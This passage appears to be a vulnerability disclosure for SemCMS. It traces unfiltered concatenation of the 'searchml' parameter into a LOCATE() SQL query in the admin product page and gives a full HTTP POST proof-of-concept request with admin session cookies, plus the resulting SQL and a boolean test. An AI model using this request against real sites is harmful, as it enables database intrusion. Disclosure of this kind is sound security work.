 ![image](https://github.com/gatsby2003/Semcms/assets/135791683/11dcd4c7-576f-4b6c-b998-e52efcce58a9)


Then directly pass in the prolmid() function.

![image](https://github.com/gatsby2003/Semcms/assets/135791683/741f65db-5b3e-4345-b46f-dc234ade415f)


Looking at the included file introduced here, it is found that there is no contorl. PHP, and $CatId is directly concatenated into the locate() function without filtering, which can be obtained by passing parameters through searchml. Therefore, there is SQL injection present.

![image](https://github.com/gatsby2003/Semcms/assets/135791683/2117d918-ddab-46b8-a27f-93f0e8b0d320)


**2、 Verification process**

Using relevant function points

Backend homepage>Comprehensive management>Product management

Construct the data packet as follows

Tips: gatsby.com is a local domain name

```
POST /semcms/admin/SEMCMS_Products.php?lgid=1 HTTP/1.1
Host: gatsby.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Origin: http://gatsby.com
Connection: close
Referer: http://gatsby.com/semcms/admin/SEMCMS_Products.php?lgid=1&indextjs=1
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=21232f297a57a5a743894a0e4a801fc3
Upgrade-Insecure-Requests: 1

searchml=64&search=
```

![image](https://github.com/gatsby2003/Semcms/assets/135791683/a5567538-0238-4aed-8e57-040e11a6d9d6)


Enable MySQL monitoring and discover successful execution of SQL statements
Select ID from sc_categories where LOCATE (', 64,', category_path)>0 and category_open=1.

![image](https://github.com/gatsby2003/Semcms/assets/135791683/97325c11-5c29-4e51-9d5f-26655805d388)


Change searchml to -1 and find no content echo.

![image](https://github.com/gatsby2003/Semcms/assets/135791683/d626e533-bd74-41bd-803c-88a9c3a7c00b)
